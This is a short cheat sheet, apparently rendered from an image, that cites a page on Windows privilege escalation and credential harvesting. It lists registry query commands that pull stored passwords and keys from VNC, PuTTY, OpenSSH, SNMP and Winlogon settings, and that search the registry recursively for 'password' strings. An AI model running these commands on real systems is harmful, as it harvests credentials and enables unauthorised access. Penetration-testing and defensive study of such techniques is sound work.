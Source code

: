 https://steflan-security.com/windows-privilege-escalation-credential-harvesting/
```
reg query “HKLM\SYSTEM\Current\ControlSet\Services\SNMP”
```
```
reg query “HKCU\Software\ORL\WinVNC3\Password”
```
```
reg query “HKCU\Software\TightVNC\Server”
```
```
reg query “HKCU\Software\OpenSSH\Agent\Key”
```
```
reg query “HKCU\Software\SimonTatham\PuTTY\Sessions”
```
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions
```
```
reg query “HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon”
```
```
reg query HKLM /f password /t REG_SZ /s
```
```
reg query HKCU /f password /t REG_SZ /s
```
